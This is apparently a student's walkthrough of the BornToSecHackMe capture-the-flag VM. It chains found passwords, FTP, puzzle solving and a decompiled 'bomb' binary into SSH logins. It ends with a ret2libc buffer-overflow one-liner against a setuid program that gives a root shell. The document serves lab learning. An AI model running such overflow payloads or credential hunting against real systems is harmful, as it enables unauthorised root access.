

after the reversshell step on the writeup1, i have been navigating throw system files.

```bash
$ ls -la

total 2 
drwxr-xr-x 2 root root 2734 Oct 13 2015 bin 
drwxr-xr-x 1 root root 60 Oct 14 2015 boot dr-xr-xr-x 7 root root 2048 Jun 17 2017 cdrom 
drwxr-xr-x 15 root root 4040 Apr 23 16:39 dev 
drwxr-xr-x 1 root root 420 Apr 23 16:39 etc 
drwxrwx--x 1 www-data root 60 Oct 13 2015 home lrwxrwxrwx 1 root root 37 Oct 8 2015 initrd.img -> /boot/initrd.img-3.2.0-91-generic-pae 
drwxr-xr-x 22 root root 1420 Oct 13 2015 lib 
drwxr-xr-x 1 root root 60 Jun 16 2017 media 
drwxr-xr-x 2 root root 3 Jun 16 2017 mnt 
drwxr-xr-x 2 root root 3 Oct 8 2015 opt dr-xr-xr-x 95 root root 0 Apr 23 16:39 proc 
drwxrwxrwx 21 root root 352 Jun 17 2017 rofs 
drwx------ 5 root root 150 Oct 15 2015 root 
drwxr-xr-x 17 root root 620 Apr 23 16:39 run 
drwxr-xr-x 2 root root 3446 Oct 13 2015 sbin 
drwxr-xr-x 2 root root 3 Mar 5 2012 selinux 
drwxr-xr-x 3 root root 26 Oct 8 2015 srv 
drwxr-xr-x 13 root root 0 Apr 23 16:39 sys 
drwxrwxrwt 4 root root 80 Apr 23 19:49 tmp 
drwxr-xr-x 1 root root 80 Oct 8 2015 usr 
drwxr-xr-x 1 root root 160 Jun 16 2017 var lrwxrwxrwx 1 root root 33 Oct 8 2015 vmlinuz -> boot/vmlinuz-3.2.0-91-generic-pae
```

```bash
find /-name passwd 2>/dev/null

/etc/cron.daily/passwd 
/etc/init.d/passwd 
/etc/pam.d/passwd 
/etc/passwd 
/usr/bin/passwd 
/usr/share/doc/passwd 
/usr/share/lintian/overrides/passwd 
/rofs/etc/cron.daily/passwd 
/rofs/etc/init.d/passwd /rofs/etc/pam.d/passwd 
/rofs/etc/passwd 
/rofs/usr/bin/passwd 
/rofs/usr/share/doc/passwd 
/rofs/usr/share/lintian/overrides/passwd
```

```bash
ls /home

total 0 
drwxrwx--x 1 www-data root 60 Oct 13 2015 . 
drwxr-xr-x 1 root root 220 Apr 23 16:39 .. 
drwxr-x--- 2 www-data www-data 31 Oct 8 2015 LOOKATME 
drwxr-x--- 6 ft_root ft_root 156 Jun 17 2017 ft_root 
drwxr-x--- 3 laurie laurie 143 Oct 15 2015 laurie 
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net 60 Oct 15 2015 laurie@borntosec.net 
dr-xr-x--- 2 lmezard lmezard 61 Oct 15 2015 lmezard 
drwxr-x--- 3 thor thor 129 Oct 15 2015 thor 
drwxr-x--- 4 zaz zaz 147 Oct 15 2015 zaz
```

```bash
ls -la /home/LOOKATME


total 1 
drwxr-x--- 2 www-data www-data 31 Oct 8 2015 . 
drwxrwx--x 1 www-data root 60 Oct 13 2015 .. 
-rwxr-x--- 1 www-data www-data 25 Oct 8 2015 password
```

````bash
cat /home/LOOKATME/password```

lmezard:G!@M6f4Eatau{sF"
````

# this password will log us to ftp

```
┌──(kali㉿kali)-[~]
└─$ ftp lmezard@192.168.56.103
Connected to 192.168.56.103.
220 Welcome on this server
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||51369|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```

i have used filezilla to navigate and coppy the files to my host mashine

- the are two files README and fun

```bash
cat README

Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

- cat the file fun will give a binary looks like output it's a tarbal file rename the file to .tar and extract it wil give a folder ft_fun which contain many .pcap files

```bash
mv fun fun.tar

tar -xf fun.tar 
```

folder creted after that

```bash
cd ft_fun
```

navigating throw files content give the an idea about the game some fales contain function declaration and the others contain a return line but all of them contain a tag at the end of file "//filexx" which is diffrent one from the other

i have desided to create some code to clean up this file and make sure only the ones i need were left

- files with meaning are files contain "getme" or "return" so i used the find_file.py to clear all the others

```bash

python3 find_file.py
Enter the directory path to search: <ft_fun path > // make sure not to run it untill you are sure of the path it will delete all files 
```

- that i prefered to clean the files left some files contain some trickiy lines like haha got you and so on we run the clear_files.py specifiying the folder again make sure you are giving the ft_fun path and the line content exemple it delete the line from the file important it is no neccecery to do it automated

```bash
python3 clear_files.py 
Enter directory path: <make sure its the right path to ft_fun "you will lose your data " > 
Enter name to remove lines containing it: <file content to eliminate line>
```

then we concatinate the content left based on the "//filexx" mark in numerical order "xx" using the sort_content.py

```bash

python3 sort_content.py
Enter directory path: <path to ft_fun "don't wory this time you will have an output.c fiel you loose nothing haha">
```

- run the cleare_files.py again to eliminate lines witt "//filexx" looks better
- file content now looks like a programe in c langage

```bash
cat output.c

#include <stdio.h>

char getme1() {

	return 'I';
}
char getme2() {

	return 'h';
}
char getme3() {

	return 'e';
}

char getme4() {

	return 'a';
}

char getme5() {

	return 'r';
}

char getme6() {

	return 't';
}
char getme7() {

	return 'p';
}

char getme8() {
	return 'w';
}
char getme9() {
	return 'n';
}
char getme10() {
	return 'a';
}
char getme11() {
	return 'g';
}
char getme12()
{
	return 'e';
}
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

compile and run

```bash
gcc output.c -o output

./output

MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

enline SHA-256 encrypt "Iheartpwnage" >> 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

now we have the credentials laurie/330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4 for an ssh connection

## ssh connection

```bash
➜  ~ ssh laurie@192.168.56.103
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.103's password: 
laurie@BornToSecHackMe:~$ ls
README  bomb
laurie@BornToSecHackMe:~$ 
```

another chalenge acured

```

┌──(kali㉿kali)-[~]
└─$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
                                                                             
┌──(kali㉿kali)-[~]
└─$ file bomb 
bomb: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.0.0, with debug_info, not stripped
              
```

- it's a new game we have to defuse the bomb the result is a password to thor user
- \-  the file bomb is an executable file .c compiled

  ```
  ┌──(kali㉿kali)-[~]
  └─$ ./bomb
  Welcome this is my little bomb !!!! You have 6 stages with
  only one life good luck !! Have a nice day!
  | 
  ```

it expect an input , i preferred to reverse engineer the bomb program

```
int main(int argc,char **argv)

{
  undefined4 uVar1;
  int in_stack_00000004;
  undefined4 *in_stack_00000008;
  
  if (in_stack_00000004 == 1) {
    infile = stdin;
  }
  else {
    if (in_stack_00000004 != 2) {
      printf("Usage: %s [<input_file>]\n",*in_stack_00000008);
                    /* WARNING: Subroutine does not return */
      exit(8);
    }
    infile = (_IO_FILE *)fopen((char *)in_stack_00000008[1],"r");
    if ((FILE *)infile == (FILE *)0x0) {
      printf("%s: Error: Couldn\'t open %s\n",*in_stack_00000008,in_stack_00000008[1]);
                    /* WARNING: Subroutine does not return */
      exit(8);
    }
  }
  initialize_bomb(argv);
  printf("Welcome this is my little bomb !!!! You have 6 stages with\n");
  printf("only one life good luck !! Have a nice day!\n");
  uVar1 = read_line();
  phase_1(uVar1);
  phase_defused();
  printf("Phase 1 defused. How about the next one?\n");
  uVar1 = read_line();
  phase_2(uVar1);
  phase_defused();
  printf("That\'s number 2.  Keep going!\n");
  uVar1 = read_line();
  phase_3(uVar1);
  phase_defused();
  printf("Halfway there!\n");
  uVar1 = read_line();
  phase_4(uVar1);
  phase_defused();
  printf("So you got that one.  Try this one.\n");
  uVar1 = read_line();
  phase_5(uVar1);
  phase_defused();
  printf("Good work!  On to the next...\n");
  uVar1 = read_line();
  phase_6(uVar1);
  phase_defused();
  return 0;
}
```

we 6 phases to go throw each time it expect an input , no problem i wont guess it

- stage 1 expect a string "Public speaking is very easy."

  ```
  void phase_1(undefined4 param_1)
  
  {
    int iVar1;
    
    iVar1 = strings_not_equal(param_1,"Public speaking is very easy.");
    if (iVar1 != 0) {
      explode_bomb();
    }
    return;
  }
  
  ```
- stage 2 expect an array of numbers 1 2 6 24 120 720

  ```
  void phase_2(undefined4 param_1)
  
  {
    int iVar1;
    int aiStack_20 [7];
    
    read_six_numbers(param_1,aiStack_20 + 1);
    if (aiStack_20[1] != 1) {
      explode_bomb();
    }
    iVar1 = 1;
    do {
      if (aiStack_20[iVar1 + 1] != (iVar1 + 1) * aiStack_20[iVar1]) {
        explode_bomb();
      }
      iVar1 = iVar1 + 1;
    } while (iVar1 < 6);
    return;
  }
  ```

why this numbers exactly

1. check the first index must = 1

next  check the index  value of the previews index must equal the index value  *2 \* 1 = 2*

... and so on

- stage 3 
  - we have that

    ```
    void phase_3(char *param_1)
    
    {
      int iVar1;
      char cVar2;
      int local_10;
      char local_9;
      int local_8;
      
      iVar1 = sscanf(param_1,"%d %c %d",&local_10,&local_9,&local_8);  "0 , q, 777"
      if (iVar1 < 3) {
        explode_bomb();
      }
      switch(local_10) {
      case 0:
        cVar2 = 'q';
        if (local_8 != 777) {
          explode_bomb();
        }
        break;
      case 1:
        cVar2 = 'b';
        if (local_8 != 214) {
          explode_bomb();
        }
        break;
      case 2:
        cVar2 = 'b';
        if (local_8 != 755) {
          explode_bomb();
        }
        break;
      case 3:
        cVar2 = 'k';
        if (local_8 != 251) {
          explode_bomb();
        }
        break;
      case 4:
        cVar2 = 'o';
        if (local_8 != 160) {
          explode_bomb();
        }
        break;
      case 5:
        cVar2 = 't';
        if (local_8 != 458) {
          explode_bomb();
        }
        break;
      case 6:
        cVar2 = 'v';
        if (local_8 != 780) {
          explode_bomb();
        }
        break;
      case 7:
        cVar2 = 'b';
        if (local_8 != 524) {
          explode_bomb();
        }
        break;
      default:
        cVar2 = 'x';
        explode_bomb();
      }
      if (cVar2 != local_9) {
        explode_bomb();
      }
      return;
    }
    ```

we have to make one of this cases work like example  0 q 777  "777  hex converted " for the case 0 the hint say that the password contain b , we will use 1 b 214 as password 

- stage 4

  \-  55 nedded by

  ```
  int func4(int param_1)
  {
  int iVar1;
  int iVar2;
  
  if (param_1 < 2) {
  iVar2 = 1;
  }
  else {
  iVar1 = func4(param_1 + -1);
  iVar2 = func4(param_1 + -2);
  iVar2 = iVar2 + iVar1;
  }
  return iVar2;
  }
  ```

all the stages are the same code input and you need to find the right one based on the hint you chose the right one for the next stage will be this 

```
9
opekmq
4 2 6 3 1 5
```

a hint from the subject :

"For the part related to a (bin) bomb: If the password found is 123456. The password to use is 123546."

that make the last password like that :

```
4 2 6 1 3 5
```

now the we use all the passwords to get thor password 

```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

```bash
└─$ ssh thor@192.168.56.109
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.56.109's password: 
thor@BornToSecHackMe:~$ ls
README  turtle
thor@BornToSecHackMe:~$ 
```

we have two files README and turtle 

```bash
thor@BornToSecHackMe:~$ cat README 
Finish this challenge and use the result as password for 'zaz' user.
thor@BornToSecHackMe:~$ cat turtle 
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
...
```

solving this challenge will grant ssh access to the user zaz, the turtle file contain instructions    transformed to logo language which give this : 

```
LEFT 90
FORWARD 50
FORWARD 1
LEFT 1
FORWARD 1
LEFT 1
FORWARD 1
LEFT 1
...
```

passing that to [__https://www.calormen.com/jslogo/__](https://www.calormen.com/jslogo/)

__will make a shape__ 



Found valid words with their meanings: AS: As (preposition) ASH: Ash (tree or remains after burning) HAS: Has (form of have) LAH: Lah (musical note) SAL: Sal (slang for salary) HASH: Hash (to chop or symbol #) LASS: Lass (young girl) SASH: Sash (decorative belt or window frame) SLASH: Slash (to cut with a sharp movement)

SLASH: Slash (to cut with a sharp movement) 

Older Hash Function (SHA-1,MD5) 

 MD5(SLASH) --->  646da671ca01bb5d84dbb5fb2238dc8e 

```
 zaz:646da671ca01bb5d84dbb5fb2238dc8e
```

ssh to zaz 

```bash
┌──(kali㉿kali)-[~]
└─$ ssh zaz@192.168.56.109
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@192.168.56.109's password: 
zaz@BornToSecHackMe:~$ ls
exploit_me  mail
zaz@BornToSecHackMe:~$ file exploit_me 
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
zaz@BornToSecHackMe:~$ 
```

reverse engineering again : 

```bash
zaz@BornToSecHackMe:~$ gdb ./exploit_me 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me 

Breakpoint 1, 0x080483f7 in main ()
(gdb) p system 
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find system,+999999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) 
```

system at 0xb7e6b060 and /bin/sh at 0xb7f8cc58

little indian ->  \\x60\\xb0\\xe6\\xb7 , \\x58\\xcc\\xf8\\xb7 

./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7')"`

`'0' * 140: ` buffer fill

'AAAA' fake return 

**__this won't work on the host do not coppy the exploit_me work on the target !!!!__**

```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7')"`
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`���AAAAX���
# id 
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
# 
 
```

good by.